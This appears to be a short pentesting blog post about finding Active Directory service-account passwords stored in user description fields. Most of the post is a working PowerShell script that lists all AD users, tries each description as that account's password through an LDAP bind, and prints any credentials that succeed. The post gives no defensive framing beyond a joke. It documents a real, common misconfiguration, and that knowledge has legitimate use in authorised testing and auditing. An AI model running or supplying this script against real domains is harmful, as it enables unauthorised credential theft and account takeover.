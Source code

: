 ```yaml
---
layout: post
title: Dumbest pentesting script to ever succeed
description: Getting service account credentials where you shouldn't
fullview: true
---
```


# Scanning for passwords in description fields in AD
In today's episode of "I can't believe this is real", the below Powershell script has a better than average likelyhood of handing out service account credentials.

``` powershell

$users = Get-ADuser -filter * -Properties description
$currentDomain = "LDAP://" + ([ADSI]"").distinguishedName

foreach ($user in $users) {
    if ($user.Description -ne $null) {
        $lookup = New-Object System.DirectoryServices.DirectoryEntry($currentDomain, $user.SamAccountName, $user.Description)
        if ($lookup.Name -ne $null) {
            write-host "We have a valid credential with $($user.SamAccountName) $($user.Description)"
        }
    }
}
```
